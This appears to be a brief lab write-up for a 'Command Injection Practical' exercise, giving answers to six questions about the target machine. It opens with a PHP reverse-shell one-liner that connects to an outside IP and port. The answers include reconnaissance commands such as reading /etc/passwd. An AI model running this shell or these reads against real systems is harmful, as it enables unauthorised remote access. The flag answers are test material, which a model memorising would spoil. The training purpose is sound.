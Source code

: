 # Command Injection Practical

```
php -r '$sock=fsockopen("10.9.18.129",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Questions
1. What strange text file is in the website root directory?
```
drpepper.txt
```

2. How many non-root/non-service/non-daemon users are there?
```
0
```

3. What user is this app running as?
```
www-data
```

4. What is the user's shell set as?
```
cat /etc/passwd
/usr/sbin/nologin
```

5. What version of Ubuntu is running?
```
lsb_release -a
18.04.4
```

6. Print out the MOTD.  What favorite beverage is shown?
```
find / -name 00-header
cat /etc/update-motd.d/00-header
DR PEPPER
```